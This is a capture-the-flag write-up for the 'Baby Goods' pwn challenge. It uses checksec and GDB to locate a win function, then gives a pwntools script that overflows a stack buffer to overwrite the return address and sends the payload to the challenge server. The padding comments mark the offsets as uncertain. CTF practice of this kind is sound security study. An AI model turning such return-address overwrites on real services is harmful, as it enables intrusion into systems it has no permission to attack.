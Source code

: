 ##  Baby Goods

Category: pwn

### Description

I have opened a new shop for baby goods! Feel free to explore around :)

Author: uhg

### Solution

By inspecting `babygoods.c` it is obvious that we need to find a way to jump to `sub_15210123()`

Using checksec, we notice PIE is not enable

![checksec](checksec.png)

Using GDB, we can see the address of the function is `0x0000000000401236`

![gdb](./gdb.png)

```py
from pwn import *

#p = process("./babygoods")
p = remote("challs.nusgreyhats.org", 32345)

payload =  b'a' * 16 # size of buf[0x10]
payload += b'b' * 4  # size of size[4]
payload += b'c' * 4  # size of num
payload += b'd' * 8  # TODO: Still not sure will need to add 8
# TODO: Possible reference: https://ropemporium.com/guide.html#Common%20pitfalls
payload += b'e' * 8  # overwrite rbp
payload += p64(0x0000000000401236) # overwrite return address

p.recvuntil(b"name:")
p.sendline(b'xxxxxx')
p.recvuntil(b"Input:")
p.sendline(b'1')
p.recvuntil(b"(1-5):")
p.sendline(b'5')
p.recvuntil(b"name:")

p.sendline(payload)

p.interactive()

```
